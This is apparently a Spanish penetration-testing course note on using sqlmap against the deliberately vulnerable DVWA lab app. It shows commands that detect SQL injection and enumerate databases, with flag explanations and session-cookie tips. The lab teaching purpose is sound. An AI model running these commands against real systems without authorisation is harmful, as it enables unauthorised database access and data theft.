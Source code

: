 ```yaml
---
title: SQL map
modulo: M3 - Ataques Web
fecha: 2025-07-15
vm: https://drive.google.com/drive/folders/17_s4xiWqbh-mRCX5FazMp-pEpokJBE70
layout: apunte
slug: 2025-07-15-sql-map
---
```

# 📋Primeros pasos
## 1. Test SQLmap (detección)
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low"
```

🔹 **Donde**:
- `-u`: Especifica la URL con el parámetro vulnerable (*id* en este caso)
- `--cookie`: Es la sesión para que no nos saque de DVWA, donde:
	- `PHPSESSID=43f0xxx → Es el ID de sesión activa.
	- `security=low` → Nivel de seguridad de DVWA, necesario para mantener la vulnerabilidad activa

O bien,
```bash
sqlmap -r request.txt
```

🔹 **Donde** `request.txt` es el archivo con la información de la request obtenida con BurpSuite.

**RESULTADO ESPERADO**
👉 **Confirmar la vulnerabilidad SQLi y obtener información básica**.  
Este es **el primer escaneo**, donde SQLmap:
- Envía **payloads de prueba** (`AND 1=1`, `UNION SELECT`, etc.).
- Detecta si el parámetro `id` es **vulnerable**.
- Identifica **el motor de base de datos** (en este caso, MySQL).

>[!info] Nota:
>Si en algun punto, nos pregunta `got a 302 redirect to 'http://10.0.2.17/dvwa/login.php'. Do you want to follow? [Y/n]` hay que darle a 'n', ya que se podría perder la sesión

## 2. Enumerar las bases de datos
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" --dbs
```

O bien,
```bash
sqlmap -r request.txt --dbs
```
